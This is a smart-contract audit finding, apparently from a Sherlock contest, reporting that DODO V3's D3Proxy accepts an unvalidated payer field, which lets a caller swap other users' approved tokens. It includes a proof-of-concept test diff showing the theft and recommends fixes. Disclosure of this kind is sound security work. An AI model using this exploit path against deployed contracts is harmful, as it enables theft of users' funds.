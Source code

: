dirk_y

high

# Attacker can steal approved tokens from users through D3Proxy

## Summary
The `D3Proxy` contract has a `buyTokens` method and a `sellTokens` method, both of which allow a user to swap one token to another token through a pool. However, because there is no input validation on the user provided `data` object, the caller can specify another user address as the payer and effectively steal approved tokens from their wallet.

## Vulnerability Detail
The behaviour is almost identical between `buyTokens` and `sellTokens`, but for the sake of this explanation we'll use the `sellTokens` path. When a user calls `sellTokens` where `fromToken != _ETH_ADDRESS_`, there is no check that the user has transferred the required funds to the contract. An underlying `sellToken` call to the pool is then made, where a user specified `data` bytes argument is passed in as a parameter. In `D3Trading` the funds are collected from the user account with the following callback to the proxy:

```solidity
IDODOSwapCallback(msg.sender).d3MMSwapCallBack(fromToken, fromAmount, data);
```

This callback passes in the same data argument previously supplied by the user. The purpose of this callback and specifically the internal `_deposit` method is to pull the relevant token for the swap from the user account:

```solidity
_deposit(decodeData.payer, msg.sender, token, value);
```

As can be seen from the above snippet, the `from` argument for the `deposit` call is the `payer` value of the `SwapCallbackData` struct. This address is not validated at any point and therefore the original caller can pass in the address of any other account that has already approved tokens to DODO (i.e. they have interacted with DODO already). Thus, a malicious user can use the tokens of other users to swap between tokens in the pool, where the malicious user receives the `toToken`.

As mentioned above, this attack can be performed through both the `buyTokens` and `sellTokens` methods, as both use the same `d3MMSwapCallBack` logic. Below is a diff to the existing test case that shows how a user can steal tokens from another user:

```diff
diff --git a/new-dodo-v3/test/DODOV3MM/periphery/D3Proxy.t.sol b/new-dodo-v3/test/DODOV3MM/periphery/D3Proxy.t.sol
index 544ce87..ad65c06 100644
--- a/new-dodo-v3/test/DODOV3MM/periphery/D3Proxy.t.sol
+++ b/new-dodo-v3/test/DODOV3MM/periphery/D3Proxy.t.sol
@@ -306,11 +306,12 @@ contract D3ProxyTest is TestContext {
         assertEq(beforeBalance3 - afterBalance3, 12 ether);
     }
 
-    function testBuyTokenToETH() public {
+    function testStealTokenToETH() public {
         makerDepositETH();
 
         uint256 beforeBalance2 = user1.balance;
         uint256 beforeBalance3 = token3.balanceOf(user1);
+        uint256 beforeBalanceUser2 = user2.balance;
 
         // construct swap bytes data
         SwapCallbackData memory swapData;
@@ -345,11 +346,11 @@ contract D3ProxyTest is TestContext {
         mulData[0] = swapDataBytes;
         mulData[1] = refundData;
 
-        vm.prank(user1);
+        vm.prank(user2);
         //d3Proxy.multicall(mulData);
         d3Proxy.buyTokens(
             address(d3MM),
-            user1,
+            user2,
             address(token3), 
             _ETH_ADDRESS_, 
             1 ether, 
@@ -361,11 +362,14 @@ contract D3ProxyTest is TestContext {
 
         uint256 afterBalance2 = user1.balance;
         uint256 afterBalance3 = token3.balanceOf(user1);
+        uint256 afterBalanceUser2 = user2.balance;
 
         //console.log("eth:", afterBalance2 - beforeBalance2);
         //console.log(beforeBalance3 - afterBalance3 );
-        assertEq(afterBalance2 - beforeBalance2, 1 ether);
+        assertEq(afterBalanceUser2 - beforeBalanceUser2, 1 ether);
+        assertEq(afterBalance2, beforeBalance2);
         assertEq(beforeBalance3 - afterBalance3, 12038792297894767191);
+
     }
 
     function testSwapCallBack() public {
```

## Impact
A malicious user can steal tokens from other users of DODO that have approved tokens to DODO.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L119
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L87
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L142

## Tool used
Manual Review

## Recommendation
One option is to modify the `sellTokens` and `buyTokens` logic in `D3Proxy` to validate the input data or hardcode `msg.sender` into the `payer` variable of the `SwapCallbackData` struct.

Alternatively the pool `sellToken` and `buyToken` logic could be modified to not use the `d3MMSwapCallBack` method, but instead act more like the vault `userDeposit` and `userWithdraw` methods where tokens are pulled from the message sender. In this case you would modify the proxy to call `_deposit(msg.sender, pool, token, amount);` in both the `sellTokens` and `buyTokens` logic.